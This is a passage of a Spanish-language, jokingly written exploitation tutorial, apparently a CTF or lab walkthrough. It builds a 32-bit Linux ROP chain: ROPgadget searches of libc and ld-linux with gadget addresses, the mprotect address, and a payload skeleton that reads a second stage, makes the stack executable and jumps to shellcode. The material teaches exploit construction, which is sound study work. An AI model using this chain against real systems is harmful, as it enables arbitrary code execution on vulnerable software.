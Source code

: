¿Desean un `pop ecx`? Cuidado, que si no os lo encuentro en un lado, sí en otro.  
`$ python2.7 ROPgadget/ROPgadget.py --binary /usr/lib32/libc.so.6 --offset 0xf7dc4000 --badbytes 00 | grep "pop ecx"  
[...]  
0xf7e01e03 : pop ecx ; ret`

—Me apuesto un `int 0x80 ; ret` a que no lo haces.  
—¿Que no?  
\[…\]  
—Venga.  
`$ python2 ROPgadget/ROPgadget.py --binary /lib/ld-linux.so.2 --badbytes 00 --offset 0xf7fd6000 --opcode "cd80c3"  
[...]  
0xf7fd6c30 : cd80c3`

Ya tenemos todo para el read(). Vamos ahora con los ingredientes para la segunda parte.

—¡UN `&mprotect` PARA LA MESA 2!  
—Oído cocina.  
`$1 = {<text variable, no debug info>} 0xf7eb9240 <mprotect>`

—A ver, la lista de la compra…  `pop;pop;pop;ret`.  
`$ python2.7 ROPgadget/ROPgadget.py --binary /usr/lib32/libc.so.6 --offset 0xf7dc4000 --badbytes 00 --only "pop|pop|pop|ret"  
[...]  
0xf7e05fdb : pop ebx ; pop esi ; pop ebp ; ret`  
\[Ahora ya no nos importa modificar ebx, la syscall read() ya está hecha.\]

—Eh sí, póngame un whisky, poco hielo, con una rajita de limón, y una dirección de `pop eax;ret`…  
—En seguida traigo su whisky.  
`$ python2.7 ROPgadget/ROPgadget.py --binary /usr/lib32/libc.so.6 --offset 0xf7dc4000 --badbytes 00 | grep "pop eax"  
[...]  
0xf7de9be7 : pop eax ; ret`

—¿Quieres llamar de una vez a tu tía EAX para felicitarle el cumple?  
—Vaaaleee… pásame el tel.  
`$ python2.7 ROPgadget/ROPgadget.py --binary /usr/lib32/libc.so.6 --offset 0xf7dc4000 --badbytes 00 | grep "call eax"  
[...]  
0xf7dde182 : call eax`

Con todo podemos hacer un esqueleto del payload para obtener las direcciones que nos faltan.

Parte 1 (argumento):
0xf7fdbbd0 xor eax, eax ; ret
0xf7fd6cb5 inc eax ; add al, 1 ; ret
0xf7fd6cb6 add al, 1                  -> EAX = 3
0xf7e01e03 pop ecx ; ret             --> ECX = 0xffff???? -> todavía no sabemos dónde quedar
0xffff???? --                      --^    # Apunta a la posición justo después de la dir de `int 0x80;ret` 0xf7fd6c30 int 0x80 ; ret # EAX = 3 ; EBX = 0x0 ; ECX = 0xffff???? ; EDX = da iguá

Parte 2 (stdin) \[colocada en 0xffff????\]:  
0xf7eb9240 &mprotect  
0xf7e05fdb &pop;pop;pop;ret  
0xffffd000  
0x00010000  
0x00000007  
0xf7de9be7 &pop eax;ret  
0xffff¿¿¿¿ # Con «¿» para diferenciar del valor que ponemos en ecx antes, este apunta al shellcode  
0xf7dde182 call eax
